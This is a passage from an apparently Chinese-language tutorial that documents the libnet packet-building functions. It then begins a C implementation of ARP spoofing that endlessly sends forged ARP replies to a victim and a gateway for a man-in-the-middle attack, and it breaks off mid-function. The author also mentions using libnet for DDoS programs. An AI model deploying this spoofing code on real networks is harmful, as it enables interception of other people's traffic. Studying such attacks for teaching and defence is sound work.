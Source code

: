 ```
libnet_ptag_t libnet_build_tcp(u_int16_t sp,
                               u_int16_t dp,
                               u_int32_t seq,
                               u_int32_t ack,
                               u_int8_t control,
                               u_int16_t win,
                               u_int16_t sum,
                               u_int16_t urg,
                               u_int16_t len,
                               u_int8_t *payload,
                               u_int32_t payload_s,
                               libnet_t *l,
                               libnet_ptag_tptag)
```

该函数用于构建TCP数据包，各参数为：

* sp：源端口号
* dp：目的端口号
* seq：序号
* ack：ack 标记
* control：控制标记
* win：窗口大小
* sum：校验和，设为 0的话，系统会自动计算
* urg：紧急指针
* len：tcp包长度
* payload：负载，为给应用程序发送的文本内容
* payload_s：负载长度
* l：libnet_init() 返回的 libnet * 指针
* ptag：协议标记，第一次组新的发送包时，这里写 0，同一个应用程序，下一次再组包时，这个位置的值写此函数的返回值。

返回值：

* 成功：协议标记
* 失败：-1

`int libnet_write(libnet_t * l)`

该函数用于数据包的发送，参数为libnet句柄。

>一点自己的说明：我看了下libnet的源码，事实上libnet就是建立在Socket基础上的，专门针对各种数据包进行了一下封装，事实上libnet构造数据包的函数远不及此，ICMP包之类的其他包还有很多，我们还可以利用它实现基于ping的存活主机扫描程序，DDos攻击程序

### Arpspoof实现

为了保证目标和网关持续处于被欺骗的状态，我们持续发包处理。

```c
void Arpspoof(void *ARG) {
    MITM_info arg = *(MITM_info *)ARG;
    while (1) {
        /* sent to victim */
        send_fake_ARP(arg.dev, arg.ATTACKER_MAC, arg.TARGET_MAC, arg.GATEWAY_IP, arg.TARGET_IP, ARP_REPLY);
        usleep(500000);
        /* sent to gateway */
        send_fake_ARP(arg.dev, arg.ATTACKER_MAC, arg.GATEWAY_MAC, arg.TARGET_IP, arg.GATEWAY_IP, ARP_REPLY);
        usleep(500000);
   
```
